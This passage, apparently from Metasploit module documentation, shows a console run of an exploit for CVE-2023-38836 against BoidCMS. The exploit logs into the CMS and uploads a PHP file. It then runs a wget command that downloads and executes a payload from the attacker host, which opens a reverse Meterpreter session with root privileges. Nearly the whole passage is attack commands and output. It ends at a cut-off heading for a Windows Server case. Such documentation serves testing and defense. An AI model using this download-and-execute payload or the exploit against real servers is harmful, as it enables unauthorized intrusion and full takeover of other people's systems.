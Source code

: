```


Exploit target:

   Id  Name
   --  ----
   0   nix Command



View the full module info with the info, or info -d command.

msf6 exploit(multi/http/cve_2023_38836_boidcms) > run

[*] Command to run on remote host: wget -qO /tmp/oEsnOArk http://10.5.135.201:8080/v3vZxR3P-stuKWjUe6pCeA; chmod +x /tmp/oEsnOArk; /tmp/oEsnOArk &
[*] Fetch Handler listening on 10.5.135.201:8080
[*] HTTP server started
[*] Adding resource /v3vZxR3P-stuKWjUe6pCeA
[*] Started reverse TCP handler on 10.5.135.201:4444 
[*] Running automatic check ("set AutoCheck false" to disable)
[!] The service is running, but could not be validated. Detected BoidCMS, but the version is unknown.
[*] Getting Token
[*] Logging into CMS
[*] Uploading PHP file eI1lHLx.php
[*] launching Payload
[*] Client 10.5.134.129 requested /v3vZxR3P-stuKWjUe6pCeA
[*] Sending payload to 10.5.134.129 (Wget/1.21.2)
[*] Transmitting intermediate stager...(126 bytes)
[*] Sending stage (3045380 bytes) to 10.5.134.129
[+] Deleted eI1lHLx.php
[*] Meterpreter session 1 opened (10.5.135.201:4444 -> 10.5.134.129:49168) at 2024-02-16 16:32:33 -0600

meterpreter > sysinfo
Computer     : 10.5.134.129
OS           : Ubuntu 22.04 (Linux 6.5.0-17-generic)
Architecture : x64
BuildTuple   : x86_64-linux-musl
Meterpreter  : x64/linux
meterpreter > getuid
Server username: root
meterpreter > 



```


### BoidCMS on Windows Server 2019x64
